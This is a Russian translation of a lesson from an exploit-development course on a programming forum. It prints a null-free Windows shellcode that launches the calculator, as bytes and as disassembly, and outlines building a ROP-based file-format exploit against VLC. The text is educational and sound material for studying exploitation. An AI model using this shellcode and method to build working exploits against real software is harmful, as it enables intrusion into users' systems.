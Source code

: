 # Часть 40

 **УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**  
  
Существует тысячи типов шеллкодов. Каждый из них разработан в соответствии с целью, которую мы должны эксплуатировать.  
  
Существую шеллкоды, которые используются для доказательства того, что вы можете запустить код после эксплуатации. Обычно они запускают калькулятор и ничего больше.  
  
Очевидно, что существуют более сложные шеллкоды, которые открывают удаленные консоли, стараются остаться в системе не смотря на то, что эксплуатируемая программа перестает работать или закрывается, инжектируют себя в некоторый другой процесс системы, сохраняет себя как файл и т.д.  
  
Существует библиотека шеллкодов, которую мы можем найти в **GOOGLE** или запрограммировать, если нам нужно что-то особенное.  
  
С этого момента мы будем использовать **УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**, который работает для всех версией **WINDOWS** и запускает калькулятор. При этом мы продемонстрируем выполнение кода.  
  
Я нашел его здесь:  
  
[https://packetstormsecurity.com/fil...-Null-Free-CreateProcessA-Calc-Shellcode.html](https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html)  
  
shellcode=  
**"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b"\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"**  
  
Я могу использовать его в скрипте **PYTHON** точно так же, если у меня есть место для его добавления.  
  
Сами байты эксплоита такие:  
  
**31 db 64 8b 7b 30 8b 7f 0c 8b 7f 1c 8b 47 08 8b 77 20 8b 3f 80 7e 0c 33 75 f2 89 c7 03 78 3c 8b" 57 78 01 c2 8b 7a 20 01 c7 89 dd 8b 34 af 01 c6 45 81 3e 43 72 65 61 75 f2 81 7e 08 6f 63 65 73 75 e9 8b 7a 24 01 c7 66 8b 2c 6f 8b 7a 1c 01 c7 8b 7c af fc 01 c7 89 d9 b1 ff 53 e2 fd 68 63 61 6c 63 89 e2 52 52 53 53 53 53 53 53 52 53 ff d7**  
  
  
**MOV EDI,DWORD PTR FS:\[EBX+30\]  
XOR EBX,EBX  
MOV EDI,DWORD PTR DS:\[EDI+C\]  
MOV EDI,DWORD PTR DS:\[EDI+1C\]  
MOV EAX,DWORD PTR DS:\[EDI+8\]  
MOV ESI,DWORD PTR DS:\[EDI+20\]   
MOV EDI,DWORD PTR DS:\[EDI\]  
CMP BYTE PTR DS:\[ESI+C\],33  
JNZ SHORT CANARY\_c.00A7138A   
MOV EDI,EAX  
ADD EDI,DWORD PTR DS:\[EAX+3C\]  
MOV EDX,DWORD PTR DS:\[EDI+78\]  
ADD EDX,EAX  
MOV EDI,DWORD PTR DS:\[EDX+20\]  
ADD EDI,EAX  
MOV EBP,EBX   
MOV ESI,DWORD PTR DS:\[EDI+EBP\*4\]  
ADD ESI,EAX  
INC EBP  
CMP DWORD PTR DS:\[ESI\],61657243  
JNZ SHORT CANARY\_c.00A713A9  
CMP DWORD PTR DS:\[ESI+8\],7365636F  
JNZ SHORT CANARY\_c.00A713A9  
MOV EDI,DWORD PTR DS:\[EDX+24\]  
ADD EDI,EAX  
MOV BP,WORD PTR DS:\[EDI+EBP\*2\]  
MOV EDI,DWORD PTR DS:\[EDX+1C\]  
ADD EDI,EAX  
MOV EDI,DWORD PTR DS:\[EDI+EBP\*4-4\]  
ADD EDI,EAX  
MOV ECX,EBX  
MOV CL,0FF  
PUSH EBX  
LOOPD SHORT CANARY\_c.00A713D8  
PUSH 636C6163  
MOV EDX,ESP  
PUSH EDX  
PUSH EDX  
PUSH EBX  
PUSH EBX  
PUSH EBX  
PUSH EBX  
PUSH EBX  
PUSH EBX  
PUSH EDX  
PUSH EBX  
CALL EDI**  
  
Эти байты запускают калькулятор везде где мы их вставляем. Хорошо, что у этих байтов нет нулей. Хотя могут быть программы, который отвергают какой-то конкретный символ отличный от нуля. Это будет зависеть от случая.  
  
Мы уже знаем, как сделать **ROP** и у нас уже есть универсальный шеллкод. Основной смысл состоит в том, чтобы практиковаться с программой **VLC**, для которой мы уже сделали **POC**. Я был бы очень рад, если бы кто-то отправил мне полный файл и туториал, объясняющий то, что Вы сделали. Я бы добавил бы первого человека, который отправил бы мне хорошо объясняющий туториал в качестве приложения в одной из глав.  
  
**ROP** может быть сделан вручную или с помощью **MONA**. Для нас нет никаких проблем. Вы должны найти модуль **DLL** без защиты **ASLR** и если таких больше чем один, **MONA** может использовать больше одной **DLL** в качестве аргумента, для объединения **ROP** объединяющей обе **DLL**.  
  
Что касается же скрипта **PYTHON**, то я дам вам его схему. Как только вы создадите **ROP**, откройте файл **POC.TY+**  
  
![1.png](https://wasm.in/attachments/1-png.3004/)   
  
И ищите числа **41424344**, которые перезаписывают **АДРЕС** **ВОЗВРАТА**.  
  
![2.png](https://wasm.in/attachments/2-png.3005/)   
  
И здесь, в зависимости от размера **ROP** + **ШЕЛЛКОДА,** скажем, что в качестве примера, **ROP** и **ШЕЛЛКОД** имеет длину **150** байтов. Я заменяю область по чуть-чуть начиная со значения **41424344**включительно. Предположим что это **160** байтов.  
  
Я помечаю вниз, пока не получу отмеченную область требуемой длины.  
  
![3.png](https://wasm.in/attachments/3-png.3006/)   
  
Я заполняю выбранную область с помощью байта **90**.  
  
![4.png](https://wasm.in/attachments/4-png.3007/)   
  
Хорошо, проверьте размер области, где находятся байты **90**, которая больше чем размер **ROP** + **ШЕЛЛКОД**. Я записываю полученный размер. В моём случае он равен **160** байт.  
  
![5.png](https://wasm.in/attachments/5-png.3008/)   
  
Теперь у нас есть схема работы скрипта. Скрипт ещё не протестирован. Скрипт не работает. Мы не определили **ROP** или **ШЕЛЛКОД**. Вы можете использовать **УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**, который мы только что видели, если у вас нет проблем с каким-либо символом. Если это не так, вы должны найти другой шеллкод.  
  
Основная идея состоит в том, что скрипт открывает файл заполненный байтами **90**, заменяет их полезной нагрузкой того же размера, которая содержит начало **ROP,** **ШЕЛЛКОД** и дополнительные данные или заполнение. Затем скрипт сохраняет файл, чтобы проверить его работоспособность. Если файл заработает, то это будет считаться эксплоитом. А если нет заработает, нам нужно трассировать, чтобы увидеть почему так получилось.  
  
Я был бы очень рад, если бы кто-то написал туториал и отправил мне рабочий эксплоит.Я бы увидел, что я зря не тратил время на написание туториалов.  
  
Первый человек, который отправит мне туториал, будет добавлен в наш курс как победитель. Если людей будет больше одного, я загружу решению их в папку **SOLUCIONES** нашего курса, которую я создам для этого на своев Веб-Сервере, если это потребуется.  
  
До следующей части **41**. Практикуйте и находите решение.  
  
  
**=======================================================  
Автор текста: Рикардо Нарваха** - **Ricardo** **Narvaja** \(**@ricnar456**\)  
Перевод на английский: **IvinsonCLS \(@IvinsonCLS\)**  
Перевод на русский с испанского+английского: **Яша\_Добрый\_Хакер\(Ростовский фанат Нарвахи\).**  
Перевод специально для форума системного и низкоуровневого программирования — **WASM.IN  
11.04.2018  
Версия 1.0**

